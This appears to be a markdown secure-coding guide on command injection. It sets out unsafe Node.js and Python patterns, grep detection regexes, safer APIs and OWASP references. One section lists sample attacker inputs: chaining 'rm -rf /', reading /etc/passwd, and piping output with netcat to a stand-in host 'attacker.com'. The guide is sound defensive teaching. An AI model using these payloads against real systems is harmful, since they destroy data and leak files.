 # command injection patterns

patterns for detecting potential command injection vulnerabilities.

## dangerous patterns

### node.js

```javascript
// dangerous
exec(`ls ${userInput}`);
exec('ls ' + userInput);
spawn('sh', ['-c', `ls ${userInput}`]);

// safer
execFile('ls', [userInput]);  // still validate input!
spawn('ls', [userInput]);     // args are separate
```

### python

```python
# dangerous
os.system(f"ls {user_input}")
os.system("ls " + user_input)
subprocess.call(f"ls {user_input}", shell=True)

# safer
subprocess.run(["ls", user_input])  # no shell
```

## grep patterns

```
# javascript/typescript
exec\(.*\+.*\)                   # exec with concatenation
exec\(.*\$\{.*\}.*\)            # exec with template literals
spawn\(.*sh.*-c                  # spawn with shell
child_process.*\(.*\+.*\)       # child_process with concatenation

# python
os\.system\(.*\+.*\)            # os.system with concatenation
os\.system\(.*f".*\{.*\}.*\)   # os.system with f-strings
subprocess.*shell=True           # subprocess with shell=True
```

## injection techniques users might try

```bash
# command chaining
; rm -rf /
&& cat /etc/passwd
|| echo hacked

# piping
| nc attacker.com 4444

# redirection
> /etc/passwd

# command substitution
$(whoami)
`whoami`
```

## safe patterns to recommend

### input validation

```javascript
// whitelist allowed characters
const safe = /^[a-zA-Z0-9_-]+$/;
if (!safe.test(userInput)) {
  throw new Error('Invalid input');
}

// whitelist allowed values
const allowedCommands = ['ls', 'pwd', 'date'];
if (!allowedCommands.includes(userInput)) {
  throw new Error('Command not allowed');
}
```

### use safer apis

```javascript
// instead of exec
const { execFile } = require('child_process');
execFile('ls', ['-la', userInput], (error, stdout) => {
  // args are passed separately, not through shell
});

// better: use native apis instead of shell commands
const fs = require('fs');
fs.readdir(userInput, (err, files) => {
  // no shell involved at all
});
```

### escape/sanitize

```javascript
// shell-escape library
const shellescape = require('shell-escape');
exec(`ls ${shellescape([userInput])}`);

// better: don't use shell at all
```

## severity: critical

command injection is critical - allows arbitrary code execution.

## references

- https://owasp.org/www-community/attacks/Command_Injection
- https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html

